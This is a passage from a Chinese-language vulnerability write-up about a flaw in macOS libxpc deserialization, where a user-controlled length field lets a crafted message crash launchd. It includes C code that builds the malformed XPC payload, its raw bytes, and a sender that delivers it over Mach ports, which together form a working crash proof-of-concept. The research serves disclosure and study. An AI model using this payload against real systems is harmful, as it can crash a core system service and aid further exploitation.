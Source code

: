 注意其中的注释。`// TKTK: Cant do this!! Size is user controlled`。我所做的是构建基础XPC消息结构的原始内存数据，在type类型的基础上进行处理。在这个复杂的类型中，有一个入口叫size，需要设置为XPC对象该部分的整个大小值。但是该值是被消息构建者控制的。所以是不能完全可信的。

当我运行我的反序列化程序来处理导致crash的那段payload时，同样我的代码也在strlen函数处crash了。我告诉自己这不可能是巧合。在对我的反序列化程序进行单步跟踪后，原因就很清晰了，和我的代码一样，libxpc代码信任了这个复杂类型的length值，基于该值增加了指针的值，并认为这就是下一个键的地址。如果你设置了这样的值，程序就尝试去从当前`offset+0xFFFFFFFF`处读取一个字符串，这就导致了一个segfault。

0x05 证明我的猜测
=====

下一步就是构建一个任意的payload来测试这个理论。当然我想用程序来实现，所以我写了一个库文件，包含一些自定义的xpc_objects将他们序列化打包进一个原始的XPC包中。为了能控制所有XPC对象的数据，我必须重新生成每个自定类型。之后我创建了一个最小的payload来触发crash。

因为这是发送到launchd，我需要一个程序来真实尝试反序列化我的XPC对象。基于一些之前的我对launchctl做的研究，我知道需要发送一个基本的XPC结构。这些包括handle，subsystem，routine键。我用来处理复杂字符串的代码如下：

```
xpc_serialization_value* vals[4] = {0,0,0,0};
vals[0] = create_xpc_serialization_uint64("handle", 1);
vals[1] = create_xpc_serialization_uint64("subsystem", 1);
vals[2] = create_xpc_serialization_string("a", "a");
((xpc_string_value*)vals[2]->value_pointer)->len = -1;
vals[3] = create_xpc_serialization_uint64("routine", 1);
xpc_serialized_object* obj = serialize_xpc_object(vals, 4);
// Print raw bytes of xpc_serialized_object// Output => {0x21, 0x43, 0x50, 0x58, 0x05, 0x00, 0x00, 0x00, 0x00, 0xf0, 0x00, 0x00, 0x5c, 0x00, 0x00, 0x00, 0x04, 0x00, 0x00, 0x00, 0x68, 0x61, 0x6e, 0x64, 0x6c, 0x65,0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x73, 0x75, 0x62, 0x73, 0x79, 0x73, 0x74, 0x65, 0x6d, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x61, 0x00, 0x00, 0x00, 0x00, 0x90, 0x00, 0x00, 0xff, 0xff, 0xff, 0xff, 0x61, 0x00, 0x00, 0x00, 0x72, 0x6f, 0x75, 0x74, 0x69, 0x6e, 0x65, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};

```

触发crash的代码：

```
#include <xpc/xpc.h>
void send_payload(void * xpc_payload, unsigned int xpc_payload_size){
        unsigned int size = sizeof(mach_msg_header_t) + xpc_payload_size;
        unsigned char* payload = calloc(size, sizeof(char));

        memcpy(payload+sizeof(mach_msg_header_t), xpc_payload, xpc_payload_size);

        mach_port_t port;
        kern_return_t ret = task_get_bootstrap_port(mach_task_self(), &port);
        mach_msg_header_t *msg = (mach_msg_header_t *)payload;
        msg->msgh_id = 0x10000000;
        msg->msgh_remote_port = port;
        msg->msgh_local_port = MACH_PORT_NULL;
        msg->msgh_bits = MACH_MSGH_BITS_ZERO;
        msg->msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_COPY_SEND, 0);

        mach_msg_return_t msg_ret;
        msg->msgh_size = size;
        msg_ret = mach_msg_send(msg);
}

int main(){
        unsigned char payload[] = {0x21, 0x43, 0x50, 0x58, 0x05, 0x00, 0x00, 0x00, 0x00, 0xf0, 0x00, 0x00, 0x5c, 0x00, 0x00, 0x00, 0x04, 0x00, 0x00, 0x00, 0x68, 0x61, 0x6e, 0x64, 0x6c, 0x65,0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x73, 0x75, 0x62, 0x73, 0x79, 0x73, 0x74, 0x65, 0x6d, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x61, 0x00, 0x00, 0x00, 0x00, 0x90, 0x00, 0x00, 0xff, 0xff, 0xff, 0xff, 0x61, 0x00, 0x00, 0x00, 0x72, 0x6f, 0x75, 0x74, 0x69, 0x6e, 0x65, 0x00, 0x00, 0x40, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};
        send_payload(payload, sizeof(payload));
```
